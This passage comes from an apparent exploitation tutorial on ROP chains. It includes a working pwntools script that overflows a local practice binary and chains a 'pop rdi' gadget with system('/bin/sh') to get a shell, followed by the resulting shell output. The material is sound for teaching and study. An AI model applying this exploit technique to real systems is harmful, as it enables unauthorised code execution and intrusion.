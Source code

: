 We don't even have to use the real address of `system()` for our exploit to work. We can just jump to the PLT entry of system, which will figure out the real address of `system()` for us. The PLT entry of `system()` is located at `0x555555555030` in this binary, which will be our second ROP gadget.

## ROP Chains

Since we are overwriting the return address twice, we are creating something called a ROP chain. A ROP chain, as the name implies, is a chain of ROP gadgets. Each ROP gadget should end with a `ret` instruction, and when that `ret` instruction is executed, `rip` will pop off the address of the next ROP gadget from the stack and execute it.

```python
#!/usr/bin/env python3
from pwn import *

io = process("./rop", stdin=PTY)
# gdb.attach(io)

pop_rdi = p64(0x00005555555551db) # ropper --file rop --search "pop rdi"
bin_sh = p64(0x555555556004) # info proc map + find 0x555555554000,0x555555559000,"/bin/sh"
system = p64(0x555555555030) # disas main

payload = b'A'*40
payload += pop_rdi
payload += bin_sh
payload += system

io.sendline(payload)
io.interactive()
```

We first type out 40 bytes of junk values to reach the return address. Next, we replace the return address with the address of a `pop rdi; ret;` ROP gadget. The program will execute the `pop rdi` instruction, and since the next thing on the stack is the address of a "/bin/sh" string, `rdi` will be set equal to the address of "/bin/sh". When the second `ret` instruction is executed, the program will set `rip` equal to the next value on the stack, which in this case is the PLT entry of `system()`. This is equivalent to calling `system("/bin/sh")`.

```sh
$ ./exploit.py
[+] Starting local process './rop': pid 3190
[*] Switching to interactive mode
exploit.py  README.md  rop  rop.c
$ $ whoami
nihaal
$ $ echo ROP rules!
ROP rules!
$ $
```

Our ROP chain only has two ROP gadgets: one for executing `pop rdi` and another for executing `system()`. However, you could make the ROP chain as long as you want (or at least until `fgets()` decides to stop reading your input). If you had enough ROP gadgets, you could theoretically rewrite the entire shellcode that we've been using with only ROP gadgets (though that would be a lot more difficult than just calling libc's `system()` function like we did above).
